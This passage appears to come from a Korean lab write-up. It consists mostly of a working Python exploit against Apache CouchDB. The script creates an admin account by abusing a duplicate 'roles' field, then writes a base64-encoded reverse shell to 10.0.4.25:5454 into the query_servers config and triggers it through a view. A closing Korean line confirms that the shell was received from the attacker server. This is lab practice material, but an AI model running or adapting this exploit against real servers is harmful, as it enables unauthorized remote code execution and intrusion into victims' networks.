```python
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://10.0.4.22:5984'
command = rb"""sh -i >& /dev/tcp/10.0.4.25/5454 0>&1"""
version = 1

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:vulnhub', data='''{
  "type": "user",
  "name": "vulnhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulnhub"
}''')

session.auth = HTTPBasicAuth('vulnhub', 'vulnhub')

command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/vulnhub')
session.put(target + '/vulnhub/test', data='{"_id": "vulnhubtest"}')

if version == 1:
    session.post(target + '/vulnhub/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/vulnhub/_design/test', data='{"_id":"_design/test","views":{"vulnhub":{"map":""} },"language":"cmd"}')
```


공격자 서버에서 정상적으로 리버스쉘을 받아옴으로써, 피해자의 네트워크에 접근이 가능함을 확인한다
![Pasted image 20240728072253](Pasted%20image%2020240728072253.png)
